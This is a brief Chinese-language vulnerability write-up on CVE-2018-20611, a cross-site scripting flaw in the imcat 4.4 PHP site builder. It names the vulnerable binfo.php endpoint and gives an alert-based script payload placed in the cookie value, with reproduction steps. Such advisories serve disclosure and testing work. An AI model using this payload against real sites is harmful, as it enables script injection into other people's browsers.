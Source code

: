 （CVE-2018-20611）Imcat 4.4 xss
===============================

一、漏洞简介
------------

imcat是一套基于PHP的开源建站系统。 imcat
4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie
URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

二、漏洞影响
------------

imcat 4.4

三、复现过程
------------

将cookie的值修改成

    "><script>alert(1)</script>

![](./.resource/(CVE-2018-20611)Imcat4.4xss/media/rId24.png)

然后访问

    http://www.0-sec.org/root/tools/adbug/binfo.php?cookie`

![](./.resource/(CVE-2018-20611)Imcat4.4xss/media/rId25.png)

参考链接
--------

> <https://github.com/AvaterXXX/CVEs/blob/master/imcat.md>
